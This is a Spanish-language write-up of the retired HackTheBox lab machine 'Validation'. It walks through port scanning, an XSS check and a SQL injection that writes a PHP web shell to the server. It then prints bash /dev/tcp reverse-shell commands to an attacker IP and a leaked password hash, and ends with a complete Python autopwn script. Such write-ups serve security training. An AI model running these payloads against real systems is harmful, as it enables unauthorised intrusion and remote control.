 ```yaml
---
title: Validation
layout: page
permalink: /HTB_Validation
---
```


<h2 class="amarillo">HackTheBox - Validation WriteUp - Máquina retirada</h2>
<div id="logos" style="text-align: center;">
  <img src="/assets/images/HTB/Validation/Validation.png" alt="under" oncontextmenu="return false;">
</div>

Comenzamos encendiendo la maquina Validation y obtenemos la dirección IP 10.129.95.235 y para identificar a que sistema operativo nos estamos enfrentando en base al TLL
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/1.png" alt="under" oncontextmenu="return false;">
</div>
![[HTB/Machines/Validation/Images/1.png]]
Y vemos que tenemos un TLL de 63 por tanto estamos frente una maquina Linux

<h2 class="amarillo">Enumeración</h2>

Comenzamos enumerando la maquina identificando los puertos que estén abiertos `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn` y exportamos la captura 
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/2.png" alt="under" oncontextmenu="return false;">
</div>

Y vemos que tenemos los puertos abiertos 22 80 4566 8080, con estos puertos procedemos a hacer un escaneo exhaustivo para identificar la version y servicio y corren para cada uno de estos puertos
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/3.png" alt="under" oncontextmenu="return false;">
</div>

Vemos un puerto 80 con el servicio http (una pagina web) la cual enumeraremos con whatweb

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/4.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a hacer algo de fuzzing con un diccionario de mil y pico rutas que nos trae nmap `--script http-enum`
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/5.png" alt="under" oncontextmenu="return false;">
</div>

A pesar de encontrar una ruta /accounts.php, iremos primero a la web

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/6.png" alt="under" oncontextmenu="return false;">
</div>

Vemos que podemos registrar usuarios en la pagina web y que el texto que pongamos en username se ve reflejado en la web, y las tecnologías que tiene la web vemos que tiene php
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/7.png" alt="under" oncontextmenu="return false;">
</div>

Y accediendo a /account.php con nuestro input malicioso en username:

```javascript
alert("XSS")
```

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/8.png" alt="under" oncontextmenu="return false;">
</div>

La pagina es vulnerable a XSS, pero viendo que podemos listar diferentes tipos de usuarios seleccionando el país probamos a realizar una inyección SQL filtrando todo el trafico en el proxy de BurpSuite

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/9.png" alt="under" oncontextmenu="return false;">
</div>

Hacemos el SQLI hasta que encontramos información relevante

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/10.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/11.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/12.png" alt="under" oncontextmenu="return false;">
</div>

A pesar de encontrar columnas interesantes no hay nada
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/13.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/14.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/15.png" alt="under" oncontextmenu="return false;">
</div>

Encontramos lo que parece ser un usuario uhc

```
uhc:*C6A38A5736CBA87E617301ECAB64184671128718
```

Suponiendo que nos encontramos en el directorio /var/www/html y que podemos abusar del SQL mediante el SQLi probamos a subir un prueba.txt

```sql
select "prueba" into outfile "/var/www/html/prueba.txt"-- -
```

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/16.png" alt="under" oncontextmenu="return false;">
</div>

Y accediendo de la URL vemos el contenido del archivo prueba.txt

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/17.png" alt="under" oncontextmenu="return false;">
</div>

Siguiendo este principio probamos a subir una reverse shell con php

```php
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>
```

Intentando acceder a nuestra reverse subiéndola aprovechándonos del SQLi

```sql
select "<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>" into outfile "/var/www/html/reverse.php"-- -
```

Vemos que se ha creado la reverse shell y que la pagina web nos interpreta nuestro código malicioso
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/18.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a ejecutar **whoami** y perfecto
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/19.png" alt="under" oncontextmenu="return false;">
</div>

Por consecuencia tratamos de entablarnos una conexión remota con bash
```bash
bash -c "bash -i %26> /dev/tcp/10.10.16.42/443 0>%261"
```
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/20.png" alt="under" oncontextmenu="return false;">
</div>

Y estando en escucha recibimos la reverse shell, seguido hacemos un tratamiento de la TTY
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/21.png" alt="under" oncontextmenu="return false;">
</div>

Revisando un poco los archivos de configuración vemos una credencial y volvemos a ver el usuario uhc

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/22.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a conectarnos como el usuario uhc pero vemos que en el directorio /home/ este usuario no existe, haciendo un hostname -I vemos que estamos en un contenedor
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/23.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a conectarnos por ssh y reutilizando la credencial del usuario uhc habremos completado la maquina

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/24.png" alt="under" oncontextmenu="return false;">
</div>

De paso quiero compartir un script autopwn en python para acceder al www-data

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/poc.png" alt="under" oncontextmenu="return false;">
</div>

```python
#!/usr/bin/env python3
# Autor: Juan García aka liandd
import sys
import signal
from termcolor import colored
import requests
import argparse
import threading
from pwn import *


# Ctrl_C
def def_handler(sig, frame):
    print(colored("\n[!] Saliendo...\n", "red"))
    sys.exit(1)


# Ctrl_C
signal.signal(signal.SIGINT, def_handler)


def get_arguments():
    parser = argparse.ArgumentParser(
        description=colored("AutoPwn Validation", "red")+colored(" HTB", "green")+" by "+colored("liandd", "red"))
    parser.add_argument('-u', '--url', dest="URL",
                        help="Machine URL to Pwn (i.e --url http://10.129.95.235)")
    parser.add_argument('-i', '--ip', dest="IP",
                        help="IP address to get shell (i.e --IP 10.10.16.42)")
    parser.add_argument('-p', '--port', dest="PORT",
                        help="PORT to get shell (i.e --port 443)")

    options = parser.parse_args()
    if options.URL is None or options.IP is None or options.PORT is None:
        parser.print_help()
        print("\n\n")
        sys.exit(1)
    return options.URL, options.IP, options.PORT


def upload_file(URL):
    data = {'username': 'blyat',
            'country': """Uruguay' union select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"-- -"""}

    r = requests.post(URL, data=data)


def intrusion(URL, IP, PORT):
    data = {
        'cmd': "/bin/bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1' " % (IP, PORT)}

    r = requests.get(URL + "/shell.php", params=data)


def main():
    URL, IP, PORT = get_arguments()
    upload_file(URL)

    try:
        threading.Thread(target=intrusion, args=(URL, IP, PORT)).start()
    except Exception as e:
        print(colored(e, "red"))

    shell = listen(PORT, timeout=20).wait_for_connection()
    shell.interactive()


if __name__ == '__main__':
    main()
```

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/pwned.png" alt="under" oncontextmenu="return false;">
</div>
